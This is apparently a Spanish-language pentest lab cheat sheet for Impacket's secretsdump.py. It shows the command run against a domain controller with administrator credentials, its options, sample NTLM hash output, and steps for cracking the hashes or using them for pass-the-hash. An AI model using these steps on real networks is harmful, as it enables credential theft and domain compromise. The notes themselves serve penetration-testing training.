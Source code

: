 

```bash
secretsdump.py marvel.local/Administrador:Password123!@192.168.0.10
```



# 🛠️ Variantes útiles:

|Opción|Uso|
|---|---|
|`-just-dc`|Solo extrae los hashes del DC (más rápido).|
|`-just-dc-user user`|Solo extrae el hash de un usuario específico.|
|`-hashes LM:NT`|Si tienes el hash en vez de la contraseña, puedes autenticarte usando el hash.|


# 🎯 ¿Qué obtienes?

- **Nombre de usuario**.
    
- **RID** (Identificador relativo).
    
- **Hash LM** (casi siempre vacío hoy en día).
    
- **Hash NTLM** (el que te interesa para Pass-the-Hash o crackeo).
    

**Salida típica:**

ruby

CopiarEditar

`Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c::: Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::`

Luego puedes meter esos hashes en **hashcat** o **john** para crackearlos.

---

# 📌 Resumen súper rápido:

|Paso|Acción|
|---|---|
|1|Acceso administrador al DC|
|2|Ejecutar `secretsdump.py` contra el DC|
|3|Conseguir hashes NTLM|
|4|Crackear o usar para Pass-the-Hash|